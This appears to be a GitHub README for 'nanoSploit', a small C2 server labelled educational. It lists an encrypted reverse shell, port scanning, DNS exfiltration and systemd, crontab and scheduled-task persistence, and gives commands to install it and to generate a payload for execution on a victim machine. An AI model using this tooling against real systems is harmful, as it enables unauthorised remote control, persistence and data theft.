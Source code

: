 # nanoSploit

Minimalist C2 server for educational purpose.

## Features

### Principals

- Encrypted reverse shell
  - With `cd` support
- Port scanner
  - Single host and network scan
  - Banner grabbing
- DNS ex-filtration
  - Used for download/upload
- Persistence
  - Linux :
    - Systemd service -> every 3 seconds
    - Crontab -> every minute
  - Windows :
    - Scheduled task -> every minute

### Bonus

- Multi-session
  - Metasploit-like
- Upload/download files
  - Using DNS ex-filtration
- Cross-platform
- No external modules in payload (no need to `pip install` something)

## Install

With pip:
```shell
pip install git+https://github.com/gelven4sec/nanosploit.git
```

## Usage

### Server

Run the program terminal :
```shell
python -m nanosploit
```

### Client

Export a payload to execute on victim :
```shell
python -m nanosploit generate --path payload --host 127.0.0.1 --port 5353
./payload # Execute on remote machine
```

Run the program for debugging :
```shell
python -m nanosploit client
```
